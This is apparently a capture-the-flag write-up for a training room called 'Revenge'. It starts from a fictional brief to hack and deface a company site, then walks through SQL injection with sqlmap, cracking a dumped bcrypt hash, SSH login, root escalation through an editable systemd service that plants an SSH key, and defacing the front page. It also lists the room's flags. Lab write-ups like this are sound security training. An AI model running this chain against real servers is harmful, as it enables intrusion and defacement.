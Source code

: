 ## Revenge
To whom it may concern,

I know it was you who hacked my blog.  I was really impressed with your skills.  You were a little sloppy
and left a bit of a footprint so I was able to track you down.  But, thank you for taking me up on my offer.
I've done some initial enumeration of the site because I know *some* things about hacking but not enough.
For that reason, I'll let you do your own enumeration and checking.

What I want you to do is simple.  Break into the server that's running the website and deface the front page.
I don't care how you do it, just do it.  But remember...DO NOT BRING DOWN THE SITE!  We don't want to cause irreparable damage.

When you finish the job, you'll get the rest of your payment.  We agreed upon $5,000.
Half up-front and half when you finish.

Good luck,

Billy

```
# Nmap 7.91 scan initiated Mon Feb 15 21:46:34 2021 as: nmap -sC -sV -o nmap/initial -vvv -p 22,80 10.10.112.151
Nmap scan report for 10.10.112.151
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-02-15 21:46:35 PST for 13s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:53:b7:7a:eb:ab:22:70:1c:f7:3c:7a:c7:76:d9:89 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBiHOfDlVoYCp0+/LM7BhujeUicHQ+HwAidwcp1yMZE3j6K/7RW3XsNSEyUR8RpVaXAHl7ThNfD2pmzGPBV9uOjNlgNuzhASOgQuz9G4hQyLh5u1Sv9QR8R9udClyRoqUwGBfdNKjqAK2Kw7OghAHXlwUxniYRLUeAD60oLjm4uIv+1QlA2t5/LL6utV2ePWOEHe8WehXPGrstJtJ8Jf/uM48s0jhLhMEewzSqR2w0LWAGDFzOdfnOvcyQtJ9FeswJRG7fWXXsOms0Fp4lhTL4fknL+PSdWEPagTjRfUIRxskkFsaxI//3EulETC+gSa+KilVRfiKAGTdrdz7RL5sl
|   256 43:77:00:fb:da:42:02:58:52:12:7d:cd:4e:52:4f:c3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNNoSioP7IDDu4yIVfGnhLoMTyvBuzxILnRr7rKGX0YpNShJfHLjEQRIdUoYq+/7P0wBjLoXn9g7XpLLb7UMvm4=
|   256 2b:57:13:7c:c8:4f:1d:c2:68:67:28:3f:8e:39:30:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEpROzuQcffRwKXCOz+JQ5p7QKnAQVEDUwwUkkblavyh
80/tcp open  http    syn-ack ttl 61 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: E859DC70A208F0F0242640410296E06A
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 15 21:46:48 2021 -- 1 IP address (1 host up) scanned in 13.25 seconds
```

#Web server port 80
There is a login panel, but it does not actually make a POST request action so this is a dead end
Going to the products page the products are in a sequential ID order and with the presence of sqlmap as a tag in the room lets try and enumerate the database using this

#Enumerating sql server
sqlmap -u http://10.10.112.151/products/1 --dbs
```
[22:10:24] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[22:10:25] [INFO] fetching database names
[22:10:25] [INFO] retrieved: 'information_schema'
[22:10:26] [INFO] retrieved: 'duckyinc'
[22:10:26] [INFO] retrieved: 'mysql'
[22:10:26] [INFO] retrieved: 'performance_schema'
[22:10:26] [INFO] retrieved: 'sys'
available databases [5]:
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

#Dumping duckyinc
sqlmap -u http://10.10.112.151/products/1 -D duckyinc --dump
Hidden in the user/"customer" table we see a flag thm{br3ak1ng_4nd_3nt3r1ng}, this turns out to be flag 1

In the system_user table we find some hashes that might be more relevant to gaining access
```
Database: duckyinc
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$REDACTED  |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$REDACTED  |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$REDACTED |
+----+----------------------+--------------+--------------------------------------------------------------+
```
The server-admin hash has fewer rounds and an appealing username so lets go for the lower hanging fruit and try to crack this hash before the others.

#Cracking server-admin hash
```
john serverAdminHash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
inuyasha         (?)
1g 0:00:00:00 DONE (2021-02-15 22:18) 1.111g/s 280.0p/s 280.0c/s 280.0C/s precious..edward
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Since we know the login panel is a deadend lets go ahead and try to ssh.

#Initial foothold
ssh server-admin@10.10.112.151
our credentials do in fact work and we find flag2

#Privilege Escalation
```
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin:
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart
        duckyinc.service, /bin/systemctl daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```
gtfobins provides us a way to edit a service and allow us escalate our privileges
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF

so we can modify this as follows
[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo 'our rsa key' > /root/.ssh/authorized_keys"
[Install]
WantedBy=multi-user.target

Since we can edit the duckyinc.service as such presumably we should then be able to reload the service and have the ability to ssh as root as an authorized identity

sudo systemctl daemon-reload
sudo systemctl restart duckyinc.service

ssh root@10.10.112.151
And we have successfully escalated to root

There doesn't appear to be a flag, but referencing the mission objectives given the flag hint reminds us that we are to deface the front page of the website so lets go ahead and do that

#Defacing Website
We navigate to /var/www/duckyinc/templates/index.html and can simply edit the frontpage here
After editing it we find the final flag has been created in the root directory

#flag 1
thm{br3ak1ng_4nd_3nt3r1ng}
#flag 2
thm{4lm0st_th3re}
#flag 3
thm{m1ss10n_acc0mpl1sh3d}
